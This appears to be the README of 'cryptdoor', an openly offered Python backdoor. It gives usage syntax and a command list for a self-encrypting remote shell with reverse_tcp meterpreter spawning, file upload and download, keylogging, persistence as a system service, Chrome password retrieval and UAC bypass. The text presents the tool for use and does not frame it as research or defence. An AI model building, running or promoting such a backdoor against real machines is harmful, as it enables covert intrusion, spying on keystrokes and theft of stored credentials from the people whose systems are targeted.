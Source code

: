 cryptdoor
=========

AES encrypted python backdoor that communicates AES encrypted data.
Shell has the ability to spawn a meterpreter reverse_tcp into memory using VirtualAlloc (taken from Veil-Evasion).
We can also download and upload files over the secure AES encrypted connection.
Keylogging is also implemented for windows using pyHook and the keystrokes are transmitted over the secure AES encrypted connection.
All communications apart from ones meterpreter makes are encrypted with AES.
On top of this the script itself is encrypted with AES and decrypts itself in memory (taken from pyherion).

Usage
=========

cryptdoor.py will make the backdoor and server.
The syntax is:

	./cryptdoor.py host port

You can add a -p to attempt automatic persistence like:

	./cryptdoor.py host port -p

host and port refer to the host and port of the listening server.

	AES-shell options:
    	 download file       -  Download a file from remote pwd to localhost.
    	 upload filepath     -  Upload a filepath to remote pwd.
    	 run commands        -  Run a command in the background.

	Windows Only:
    	 persistence         -  Install exe as a system service backdoor.
    	 meterpreter ip:port -  Execute a reverse_tcp meterpreter to ip:port.
    	 keyscan             -  Start recording keystrokes.
    	 keydump             -  Dump recorded keystrokes.
    	 keyclear            -  Clear the keystroke buffer.
    	 chromepass          -  Retrieve chrome stored passwords.
    	 bypassuac cmds      -  Run commands as admin.


